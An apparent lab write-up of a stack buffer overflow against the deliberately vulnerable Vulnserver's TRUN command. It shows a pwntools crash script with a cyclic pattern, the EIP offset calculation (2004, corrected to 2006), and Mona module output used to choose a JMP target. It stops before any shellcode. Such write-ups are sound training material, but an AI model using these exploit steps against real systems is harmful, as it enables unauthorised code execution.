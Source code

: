 ## Exploitation

### 1. Control EIP
Send a cyclic string to the program, get the EIP value when the crash happens.
```python
io = start()

exploit = cyclic(3000)

info(io.recv(4096))
io.sendline(f'TRUN .{exploit}')
```
![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_Vulnserver/img/01.png)  

The access violation occurs at: `0x75616162`.
```bash
ali㉿kali)-[~/Documents/bof/vulnserver]
└─$ pwn cyclic -l 0x75616162                                   
2004
```
The EIP offset is 2004.

### 2. Sanity check EIP
Send the payload now as follows: [OFFSET (size 2004)[BBBB]
This results in a crash at `0x000ABBBB`. In this instance the offset is two bytes off. This shows the importance of sanity checking to ensure EIP is correct before proceeding. Retrying with an offset of 2006 hits `\x42424242` bytes.

### 3. Locate JMP instruction
Firstly check modules with `!mona modules`.
```
0BADF00D   !mona modules

           ---------- Mona command started on 2021-03-21 10:04:32 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False |  False   | True   | -1.0- [essfunc.dll] (C:\WINDOWS\system32\essfunc.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.DLL] (C:\WINDOWS\system32\WS2_32.DLL)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x00400000 | 0x00407000 | 0x00007000 | False  | False   | False |  False   | False  | -1.0- [vulnserver.exe] (C:\Documents and Settings\Administrator\Desktop\vulnserver.exe)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
```